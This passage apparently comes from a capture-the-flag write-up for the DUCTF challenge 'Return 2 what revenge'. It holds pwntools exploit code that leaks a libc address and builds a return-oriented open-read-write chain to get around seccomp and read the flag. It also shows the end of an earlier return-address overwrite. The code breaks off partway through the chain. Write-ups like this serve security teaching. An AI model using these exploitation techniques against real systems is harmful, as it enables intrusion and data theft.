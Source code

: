 ```python
	lll = kkk.generate(settings)
	io.sendline(lll)

	ooo = WritePayload()
	ooo[return_addr+0x18] = p64(libc_base+0x04f440)
	eee = ooo.generate(settings)
	io.sendline(eee)
	io.interactive()
```

## Return 2 what revenge

1. Same as return 2 what. but with seccomp, ORW to get flag (open-read-write)

```python
#!/usr/bin/python3
from pwn import *
from past.builtins import xrange
from time import sleep
import random

####Exe
exe = context.binary = ELF('./return-to-whats-revenge')

####Gadgets
R_pop_rdi = 0x004019db
L_pop_rax = 0x000bcd77
L_pop_rdx = 0x00001ba6
L_pop_rsi = 0x0015d404
L_pop_rdi = 0x0016404a
L_syscall = 0x000e5935

####Addr
open = 	0x10fc40
read = 	0x110070
write = 0x110140
bss = 0x404020

####Exploit
if __name__ == '__main__':
#	io = process('./return-to-whats-revenge',env={'LD_PRELOAD':'./libc6_2.27-3ubuntu1_amd64.so'})
	io = remote('chal.duc.tf', 30006)
	L_ROP = b'A'*0x38+\
		p64(R_pop_rdi)+\
		p64(exe.got['gets'])+\
		p64(exe.sym.puts)+\
		p64(exe.sym.main)
	io.recv()
	io.sendline(L_ROP)

	libc_leak = u64(io.recvline().strip().ljust(8,b'\x00'))-0x0800b0
	print(hex(libc_leak))
	L_ROP = b'A'*0x38+\
		p64(libc_leak+L_pop_rdi)+p64(bss)+\
		p64(libc_leak+0x800b0)+\
		p64(libc_leak+L_pop_rdi)+p64(bss)+\
		p64(libc_leak+L_pop_rsi)+p64(0x0)+\
		p64(libc_leak+L_pop_rax)+p64(0x2)+\
		p64(libc_leak+L_syscall)+\
		p64(libc_leak+L_pop_rdi)+p64(0x3)+\
		p64(libc_leak+L_pop_rsi)+p64(bss)+\
		p64(libc_leak+L_pop_rdx)+p64(0x50)+\
		p64(libc_leak+L_pop_rax)+p64(0x0)+\
```